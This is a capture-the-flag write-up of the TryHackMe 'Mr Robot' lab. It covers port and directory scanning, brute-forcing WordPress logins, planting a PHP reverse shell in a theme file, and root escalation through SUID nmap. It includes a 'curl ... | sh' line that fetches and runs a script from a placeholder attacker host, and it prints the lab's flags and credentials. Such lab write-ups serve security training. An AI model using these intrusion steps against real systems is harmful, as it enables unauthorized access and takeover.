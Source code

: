 # TRYHACKME | MR ROBOT

> BLUE COSMO | 03/10/2021

## RESOURCES
```
10.10.246.245
```

## TASK 1
- RUN NMAP TO FIND PORT 80, 443 OPEN
- OPENED WEBSERVER, RAN 'dirb' SCANNER
- FOUND AND OPENED 'robots.txt':
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
NAVIGATED TO FILES TO FIND KEY AND DICTIONARY FILE
```
073403c8a58a1f80d943455fb30724b9
```

## TASK 2
BRUTEFORCE WORDPRESS [FOUND IN 'dirb' SCAN] TO GET THESE CREDS:
```
USER - elliot
PASS - ER28-0652
```
AFTER LOGGING IN TO WP,
- IN THE APPEARANCE, CHANGE '404.php' WITH A PHP REVERSE Shell
- SETUP LISTENER AND OBTAIN ACCESS TO 'daemon'
- NAVIGATE TO HOME DIRECTORY
```bash
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
DECRYPTED MD5:
```
abcdefghijklmnopqrstuvwxyz
```
- SWITCH USER TO 'robot' WITH NEW CREDENTIALS
- NAVIGATE TO HOME AND OBTAIN CREDENTIALS
```
822c73956184f694993bede3eb39f959
```
STABLIZE
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## TASK 3
- TO GET ROOT, IMPORT AND RUN 'linpeas.sh' BY RUNNING:
- ATTACKER PC: [LEAVE RUNNING]
```
sudo python3 -m http.server --bind YOUR-IP-HERE 8080
```
- TARGET PC:
```
curl http://YOUR-IP-HERE/linpeas.sh | sh
```
LOCATE NMAP'S ROOT PRIVELGES
```bash
$ -rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
```
EXPLOIT
```
nmap --interactive
!sh
```
NAVIGATE TO ROOT DIRECTORY AND OBTAIN CAT KEY FILE
```
04787ddef27c3dee1ee161b21670b4e4
```
